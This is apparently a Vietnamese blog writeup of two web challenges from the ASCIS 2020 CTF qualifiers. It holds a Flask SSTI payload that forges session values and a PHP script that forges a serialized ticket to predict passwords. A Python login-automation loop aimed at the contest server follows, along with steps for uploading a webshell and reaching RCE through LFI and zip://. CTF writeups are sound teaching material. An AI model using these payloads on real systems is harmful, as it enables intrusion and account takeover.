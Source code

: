 ```yaml
---
title: "ASCIS 2020 Quals - Web short writeup"
summary: "Short writeup for Web challenge that I solved in ASCIS 2020 Quals"
date: 2020-11-01
tags: ["ctf", "web"]
---
```

## TSULOTT3
Đề chỉ có 1 file `main.py` như sau:
```python
from flask import Flask, session, request, render_template, render_template_string
from flask_session import Session
from random import randint as ri

app = Flask(__name__)
SESSION_TYPE = 'filesystem'
app.config.from_object(__name__)
Session(app)
cheat = "Pls Don't cheat! "

def check_session(input):
	if session.get(input) == None:
		return ""
	return session.get(input)

@app.route("/", methods=["GET","POST"])
def index():
	try:
		session.pop("name")
		session.pop("jackpot")
	except:
		pass
	if request.method == "POST":
		ok = request.form['ok']
		session["name"] = request.form['name']
		if ok == "Go":
			session["check"] = "access"
			jackpot = " ".join(str(x) for x in [ri(10,99), ri(10,99), ri(10,99), ri(10,99), ri(10,99), ri(10,99)]).strip()
			session["jackpot"] = jackpot
			return render_template_string("Generating jackpot...<script>setInterval(function(){ window.location='/guess'; }, 500);</script>")
	return render_template("start.html")

@app.route('/guess', methods=["GET","POST"])
def guess():
	try:
		if check_session("check") == "":
			return render_template_string(cheat+check_session("name"))
		else:
			if request.method == "POST":
				jackpot_input = request.form['jackpot']
				if jackpot_input == check_session("jackpot"):
					mess = "Really? GG "+check_session("name")+", here your flag: ASCIS{xxxxxxxxxxxxxxxxxxxxxxxxx}"
				elif jackpot_input != check_session("jackpot"):
					mess = "May the Luck be with you next time!<script>setInterval(function(){ window.location='/reset_access'; }, 1200);</script>"
				return render_template_string(mess)
			return render_template("guess.html")
	except:
		pass
	return render_template_string(cheat+check_session("name"))


@app.route('/reset_access')
def reset():
	try:
		session.pop("check")
		return render_template_string("Reseting...<script>setInterval(function(){ window.location='/'; }, 500);</script>")
	except:
		pass
	return render_template_string(cheat+check_session("name"))


if __name__ == "__main__":
	app.secret_key = 'xxxxxxxxxxxxxxxxxxxxx'
	app.run()
```
### Cách 1
Đây là cách mình sử dụng để solve trong lúc thi.
```
POST /

name={% set x=session.update({'check': 'access', 'jackpot': ''}) %}&ok=
```
```
POST /guess

jackpot=
```
### Cách 2
*Không khai thác SSTI, sưu tầm từ các đội khác sau khi thi.*

1. Submit name bất kì tại `/`, sau đó sẽ được redirect sang `/guess`.
```python
# Mô tả session
session = {'name': 'anything', 'check': 'access', 'jackpot': 'xx xx xx xx xx xx'}
```
2. Truy cập lại về `/`.
```python
# Mô tả session
session = {'check': 'access'}
```
3. Quay trở lại `/guess` và submit với 1 input rỗng (vì hàm `check_session` sẽ trả về chuỗi rỗng nếu key không tồn tại).

## among_us
1. Viết PHP script để generate ra `ticket` và password mới cho user
```php
<?php
class CrewMate {
	public $name = 'tsu';
	public $secret_number = [1, 2, 3, 4, 5, 6, 7, 8, 9];
}

$arr = new CrewMate;
$se = serialize($arr);

echo base64_encode($se) . PHP_EOL;

$de = unserialize($se);
$secret_number = strtoupper($de->secret_number);
$random_rand = rand(0, $secret_number);
srand($random_rand);
$new_password = "";
while (strlen($new_password) < 30) {
    $new_password .= strval(rand());
}
echo 'New password: ' . $new_password . PHP_EOL;
?>
```
2. Viết Python script để tự động hóa việc lấy token để đăng nhập
```python
from re import findall
from hashlib import md5
import requests

REGEX_TOKEN = r'name="token" value="(.*?)"'
PHPSESSID = '' # Nhập PHPSESSID vào biến

while True:
    res = requests.get('http://35.240.156.48/?page=forgot', cookies={
        'PHPSESSID': PHPSESSID
    })
    token = findall(REGEX_TOKEN, res.text)[0]
    res = requests.post('http://35.240.156.48/?page=forgot', data={
        'ticket': 'Tzo4OiJDcmV3TWF0ZSI6Mjp7czo0OiJu[redacted]', # Ticket được lấy từ PHP script ở trên
        'token': token
    }, cookies={
        'PHPSESSID': PHPSESSID
    })

    res = requests.get('http://35.240.156.48/?page=login', cookies={
        'PHPSESSID': PHPSESSID
    })
    token = findall(REGEX_TOKEN, res.text)[0]
    res = requests.post('http://35.240.156.48/?page=login', data={
        'username': 'tsu',
        'password': '117856802212731241191535857466', # Password được lấy từ PHP script ở trên
        'token': token
    }, cookies={
        'PHPSESSID': PHPSESSID
    })
```
Chạy cho đến khi script bị lỗi tại hàm `findall` thì dừng lại (vì login xong sẽ không còn form login nữa nên không thể lấy được token, dẫn đến lỗi).

3. Upload 1 PHP webshell và server sẽ tạo 1 file zip chứa file mình mới upload lên và sẽ được xóa cho đến khi có 1 lượt upload khác.
4. Sử dụng lỗi LFI ở trang `index.php` + zip wrapper (`zip://`) để include PHP shell trong file zip => RCE.
5. Lấy flag ở trong database.
